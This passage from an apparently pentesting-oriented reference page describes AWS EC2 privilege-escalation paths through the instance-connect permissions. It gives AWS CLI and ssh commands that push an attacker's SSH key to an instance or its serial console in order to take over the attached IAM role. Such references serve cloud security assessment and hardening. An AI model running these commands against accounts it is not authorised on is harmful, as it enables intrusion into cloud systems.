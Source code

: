 **Potential Impact:** Direct privesc to a different EC2 role.

### `!autoscaling`

The set of permissions **`ec2:CreateLaunchTemplate`** and **`autoscaling:CreateAutoScalingGroup`** **aren't enough to escalate** privileges to an IAM role because in order to attach the role specified in the Launch Configuration or in the Launch Template **you need to permissions `iam:PassRole`and `ec2:RunInstances`** (which is a known privesc).

### `ec2-instance-connect:SendSSHPublicKey`

An attacker with the permission **`ec2-instance-connect:SendSSHPublicKey`** can add an ssh key to a user and use it to access it (if he has ssh access to the instance) or to escalate privileges.

```bash
aws ec2-instance-connect send-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --instance-os-user "ec2-user" \
   --ssh-public-key "file://$PUBK_PATH"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

An attacker with the permission **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** can **add an ssh key to a serial connection**. If the serial is not enable, the attacker needs the permission **`ec2:EnableSerialConsoleAccess` to enable it**.

In order to connect to the serial port you also **need to know the username and password of a user** inside the machine.

{% code overflow="wrap" %}
```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --serial-port 0 \
   --region "eu-west-1" \
   --ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```
{% endcode %}

This way isn't that useful to privesc as you need to know a username and password to exploit it.

**Potential Impact:** (Highly unprovable) Direct privesc to the EC2 IAM roles attached to running instances.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
